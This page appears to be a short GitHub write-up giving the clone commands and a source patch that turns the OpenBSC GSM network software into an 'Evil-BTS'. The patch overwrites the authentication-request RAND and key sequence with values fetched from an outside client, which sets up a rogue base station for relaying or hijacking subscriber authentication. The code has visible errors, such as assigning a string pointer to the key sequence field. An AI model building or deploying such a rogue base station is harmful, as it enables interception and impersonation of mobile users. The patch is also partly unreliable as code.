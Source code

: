 ## Patch OpenBSC Evil-BTS:

``` bash
git clone https://github.com/osmocom/openbsc
git checkout 3f457a3b79e2908664b40eab9ca8e70c44a54898
```

``` patch
diff -ru openbsc/openbsc/src/libmsc/gsm_04_08.c bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c
--- openbsc/openbsc/src/libmsc/gsm_04_08.c  2022-08-30 16:59:20.033455224 +0200
+++ bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c 2022-08-30 15:51:17.243099474 +0200
@@ -70,7 +70,10 @@
 #include <osmocom/gsm/tlv.h>
 
 #include <assert.h>
+#include "server.h"
+#include "hex.h"
+#include "client.h"

 void *tall_locop_ctx;
 void *tall_authciphop_ctx;
 
@@ -908,6 +911,20 @@
struct msgb *msg = gsm48_msgb_alloc_name("GSM 04.08 AUTH REQ");
struct gsm48_hdr *gh = (struct gsm48_hdr *) msgb_put(msg, sizeof(*gh));
struct gsm48_auth_req *ar = (struct gsm48_auth_req *) msgb_put(msg, sizeof(*ar));
+DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
+   
+
+
+   char *test;
+   test=catch_rand();
+   printf("test %s\n",test);
+   char *randy=strtok(test," -");
+   printf("rand %s\n",rand);
+   char *kandy_seq=strtok(NULL,"-");
+   printf("key_seq %s\n",kandy_seq);
+   char *randy_magnum = spaces(randy);
+const unsigned char *randynator=hex2ascii(randy_magnum);
+memcpy(rand,randynator,16);
 
DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
if (autn)
@@ -917,7 +934,7 @@
gh->proto_discr = GSM48_PDISC_MM;
gh->msg_type = GSM48_MT_MM_AUTH_REQ;
 
-   ar->key_seq = key_seq;
+   ar->key_seq = kandy_seq;
 
```
